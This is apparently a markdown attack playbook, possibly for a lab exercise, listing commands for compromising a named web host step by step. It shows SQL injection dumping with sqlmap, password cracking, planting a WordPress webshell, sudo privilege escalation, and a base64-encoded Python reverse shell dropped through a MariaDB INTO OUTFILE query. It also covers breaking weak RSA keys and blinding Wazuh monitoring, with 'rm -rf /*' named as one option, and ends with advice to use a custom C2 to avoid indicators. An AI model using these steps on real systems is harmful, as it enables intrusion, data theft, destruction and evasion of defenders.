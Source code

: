 # List of useful commands
This list contains useful commands to use during the attack

# Port enumeration
Enumerates all the open ports in a stealthier way\
`nmap -sS -sV -vv 10.0.1.1 -p-`

# Dumping database
Dumping the database via SQLi\
`sqlmap -u http://www.quinteflush.org/login.php --forms --dump --dbs --batch`

# Crack the hash
From the database, crack the hash in hope of finding an admin password for wordpress\
`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

Then login to `http://www.quinteflush.org/wp-admin` via `admin:********`.\
Install the `File Manager Advanced` plugin and replace a webpage with a webshell.

# Webshell
Use a listener on 0.0.0.0 with either port 80/tcp, 443/tcp or 53/tcp\
`rlwrap nc -lvnp 53`

Go to the edited webpage to trigger the webshell

# Privilege Escalation
First, let's enumerate all what are the sudo rights given to www-data\
`sudo -l`
\
privilege escalation (gtfobins) in interactive mode\
`sudo vim -c ':!/bin/bash -i'`\
\
If you don't use interactive mode, upgrade the shell to interact better with the system\
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

# Information gathering
Check the wordpress configuration to access the database.\
`cat /var/www/wordpress/wp-config.php`

# SSRF RCE Mariadb
Launch mariadb by using the wordpress configuration.\
`mariadb -u wordpress_user -p --host=10.0.0.6`\

Drop the python3 (base64 encoded) payload on the mariadb server, which is on the LAN:\
`USE shop;`\
`SELECT 'eval $(echo cHl0aG9uMyAtYyAnaW1wb3J0IG9zLHB0eSxzb2NrZXQ7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMTAuMC4xLjEiLDIyKSk7W29zLmR1cDIocy5maWxlbm8oKSxmKWZvciBmIGluKDAsMSwyKV07cHR5LnNwYXduKCJzaCIpJw== | base64 -d)' INTO OUTFILE '/tmp/mysql.sh' FROM 'shop.user' LIMIT 1;`

On the nmap report, there's a ssh running on port `22/tcp`. Disable the service ssh on webserver:\
`systemctl stop ssh`\

Install `netcat` then launch a listener on port `22`:\
`apt install netcat-openbsd && nc -lvnp 22`\

Wait 1 to 2 minutes, so that the backup script executes our payload.

# Breaking RSA
You will find 2 rsa 4096bits public keys. These keys are vulnerable to Fermat's algorithm. Generate the `n` module to factorize it, and obtain `p` and `q`, so you can generate the private key.\
`ssh-keygen -e -m PKCS8 -f <public_key> | openssl rsa -pubin -noout -modulus`\
`echo "ibase=16; <result_of_the_previous_command> | BC_LINE_LENGTH=0 bc"`\

Paste the result in your python `fermat.py` as the argument of the `factorize()` function. You will obtain `p` and `q`.

# Wazuh
Once logged in, make Wazuh blind. Use any method you can think of (e.g. changing ip address, stopping the service, `rm -rf /*`...)

# Active Directory
Upload a custom C2 to avoid leaving IoCs.